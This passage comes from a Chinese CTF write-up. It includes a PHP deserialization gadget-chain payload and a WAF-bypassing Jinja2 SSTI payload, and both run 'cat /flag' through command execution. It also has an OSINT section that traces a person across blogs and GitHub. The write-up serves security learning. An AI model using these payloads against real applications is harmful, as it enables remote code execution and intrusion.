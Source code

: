     function __get($Attribute)
    {
        eval($this->end);
    }
}
$payload = new entrance();
$a = serialize($payload);
echo $a;
?>
```
最后的Payload:```?serialize=O:8:"entrance":1:{s:5:"start";O:11:"springboard":1:{s:6:"middle";O:4:"evil":1:{s:3:"end";s:20:"system(%27cat%20/flag%27);";}}}```

### 让 我 访 问
先看题面 题目应用了python框架,大概率会遇到waf过滤</br>
访问网页后是一个登录界面 直接怒戳F12</br>
发现一个/action接口 参数goto=register
访问后提示```Sorry, register page is lost.```</br>
修改goto为其他值 发现返回值相应改变</br>
结合地狱通讯所学以及题目提示python 很可能又是SSTI</br>
输入goto={{7*7}}返回49 确实存在SSTI</br>
直接照搬地狱通讯 发现返回状态码500 payload被waf拦截
<blockquote>这个时候应该fuzz一波看看过滤了哪些关键字 再考虑绕过</br>
然而阴差阳错间我在github上搜到本葵花宝典
</blockquote>
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings">PayloadsAllTheThings</a></br>
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/b3d31e45e58d806680d4977fe6e7cfbd42f1b5eb/Server%20Side%20Template%20Injection/README.md#jinja2---filter-bypass">SSTI payload</a></br>
采用绕过最多常用waf的payload:

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat /flag')|attr('read')()}}
```
得到flag

### fake game
<blockquote>第一次莫名其妙拿到flag 事后得知是题目问题</blockquote>
<blockquote>后来有高人@CyXq指点 才知道和原型链污染有关</blockquote>
<a href="https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html">[参考博客]</a>

## Pwn
...
## Re
...
## Misc
### 社 工 题
Google搜索```Noah的博客 "CTF"```</br>
意外发现hs的blog 友链里找到Noah的第一个博客</br>
```https://noahtie.github.io/```</br>
在关于界面提到</br>
<blockquote>我还有一个lofter博客，其中主要是TRPG方面的文章</blockquote>

找到lofter博客

```
https://masternoah.lofter.com/post/31fdff01_1ccc468af
``` 
又在里面翻到了另一个trpg博客</br>
```https://noahbox.github.io```
留言簿里有HakcerHS的留言 提示查看github上的repositories</br>
前往github搜索noahbox 搜到账户MasterNoah</br>
有一个叫HackedbyHS的repo
```